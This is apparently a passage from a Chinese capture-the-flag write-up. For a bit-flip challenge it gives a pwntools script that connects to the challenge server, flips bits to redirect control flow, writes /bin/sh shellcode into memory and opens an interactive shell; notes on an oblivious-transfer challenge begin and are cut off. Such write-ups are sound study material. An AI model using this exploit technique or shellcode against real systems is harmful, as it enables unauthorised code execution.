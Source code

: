 # 13 超精准的宇宙射线模拟器

脚本如下：

```python
from pwn import *
#sh = process('./bitflip')
sh = remote('202.38.93.111',10231)
context.log_level='debug'
context.arch = 'amd64'
context.os = 'linux'
def bitxor(addr, num):
    sh.recvuntil('You can flip only one bit in my memory. Where do you want to flip?\n')
    sh.sendline(hex(addr)+' ' + str(num))

def onechange(byt, addr):
    tmp = ord(byt)
    for i in range(8):
        if tmp&1:
            bitxor(addr, i)
        tmp = tmp>>1
sh.recvuntil('Please input your token: ')
sh.sendline('444:MEYCIQCOwUMnrz99os4e7j2RMF6lWimf1iMdPwIzb15HP3aUfAIhAOcW4gDJGOqi5sdtEF0zItE6w9K90u0XhOdsv7h/5OlF')        
#change exit to call _start
bitxor(0x401296, 4)

#write shellcode to 0x401500
shellcode = 'jhH\xb8/	bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
shellcode_addr= 0x401500
for i in range(len(shellcode)):
    onechange(shellcode[i], shellcode_addr+i)
#change exit to jmp 0x401500
a = 0x90902f6d21c81b
exit_addr = 0x4010C4
j = 0
while a:
    tmp_a = a & 0xff
    onechange(chr(tmp_a), exit_addr + j)
    a = a>>8
    j = j+1 
#change call _start to exit
bitxor(0x401296, 4)
#gdb.attach(sh)
sh.interactive()
```

# 14 不经意传输

## T1 解密消息

* v = x0
* m0 = m1 = m0_ 
